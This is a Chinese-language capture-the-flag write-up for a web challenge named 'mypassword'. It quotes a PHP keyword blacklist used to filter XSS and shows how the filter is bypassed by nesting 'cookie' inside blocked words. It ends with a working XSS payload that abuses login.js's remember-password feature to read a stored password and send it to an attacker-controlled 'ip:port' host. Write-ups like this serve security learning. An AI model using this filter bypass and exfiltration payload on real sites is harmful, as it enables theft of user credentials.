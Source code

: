 ## mypassword
打开浏览器，注册登录，提示密码在写在源码中，无法通过sql注入获得

![1](./img/1.jpg)

打开反馈页面，查看源码发现过滤字符，发现除了cookie以外都能通过插入前面的字符进行绕过

```
if(is_array($feedback)){
				echo "<script>alert('反馈不合法');</script>";
				return false;
			}
			$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
			foreach ($blacklist as $val) {
		        while(true){
		            if(stripos($feedback,$val) !== false){
		                $feedback = str_ireplace($val,"",$feedback);
		            }else{
		                break;
		            }
		        }
		    }
```

尝试通过引入外部js读取cookie但发现被CSP禁止

![2](./img/2.jpg)

回到登录界面发现login.js中的记住密码功能会将读取cookie中的password。于是构造一个登录框并且引入login.js提交反馈等待bot点开获得flag

```
<incookieput type="text" name="username">
<incookieput type="password" name="password">
<scrcookieipt scookierc="./js/login.js"></scrcookieipt>
<scrcookieipt>
	var psw = docucookiement.getcookieElementsByName("password")[0].value;
	docucookiement.locacookietion="http://ip:port/?psw="+psw;
</scrcookieipt>
```